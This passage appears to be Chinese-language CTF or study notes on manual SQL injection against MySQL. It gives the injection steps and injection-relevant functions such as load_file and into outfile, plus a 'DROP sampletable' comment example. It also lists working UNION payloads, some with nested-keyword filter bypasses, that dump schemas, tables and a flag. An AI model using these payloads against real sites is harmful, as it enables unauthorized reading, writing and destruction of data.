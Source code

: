 * 区分大小写的：变量名、常量名、数组索引
* 不区分大小写的：函数名、方法名、类名、魔术常量、NULL、TRUE、FALSE、强制类型转换

## SQL注入

手工注入步骤：

1.判断是否存在注入，注入是字符型还是数字型

2.猜解SQL查询语句中的字段数

3.确定显示的字段顺序

4.获取当前数据库

5.获取数据库中的表

6.获取表中的字段名

7.下载数据

GROUP\_CONCAT\(\)函数将组中的字符串连接成为具有各种选项的单个字符串。

MySQL UNION 操作符用于连接两个以上的 SELECT 语句的结果组合到一个结果集合中，要求字段数一致。

```sql
注入常见参数 
user()：当前数据库用户
database()：当前数据库名
version()：当前使用的数据库版本
@@datadir：数据库存储数据路径
concat()：联合数据，用于联合两条数据结果。如 concat(username,password)
group_concat()：和 concat() 类似，如 group_concat(DISTINCT+user,password)，用于把多条数据一次注入出来
concat_ws()：用法类似
hex() 和 unhex()：用于 hex 编码解码
load_file()：以文本方式读取文件，在 Windows 中，路径设置为 \\
select xxoo into outfile '路径'：权限较高时可直接写文件

行间注释 
'-- '   --后面有个空格
DROP sampletable;--
url里空格会被浏览器直接处理掉，就到不了数据库里。所以特意用加号代替。
#
DROP sampletable;#
```

```sql
?id=1'  回显空白 -> 可能为单引号闭合
?id=1'--+ 回显正常 -> 单引号闭合方式
?id=1' and 1=1--+ 回显空白 -> 可能过滤了and
?id=1' And 1=1--+ 回显空白 -> 可能过滤了大小写
?id=1' anandd 1=1--+ 回显正常 -> 嵌套剥离绕过 过滤了and、or
?id=1' oorrder by 3--+ ->列数为3

?id=-1' uniunionon selselectect 1,group_concat(schema_name),3 from infoorrmation_schema.schemata--+
?id=-1' uniunionon selecselectt 1,group_concat(table_name),3 from infoorrmation_schema.tables where table_schema='web18'--+
?id=-1' uniunionon selecselectt 1,group_concat(column_name),3 from infoorrmation_schema.columns where table_name='flag'--+
?id=-1' uniunionon selecselectt 1,flag,3 from flag--+


?id=-1' union select 1,group_concat(schema_name),3 from information_schema.schemata--+
?id=-1' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='web18'--+
?id=-1' union select 1,group_concat(column_name),3 from information_schema.columns where table_name='flag'--+
?id=-1' union select 1,flag,3 from flag--+
```
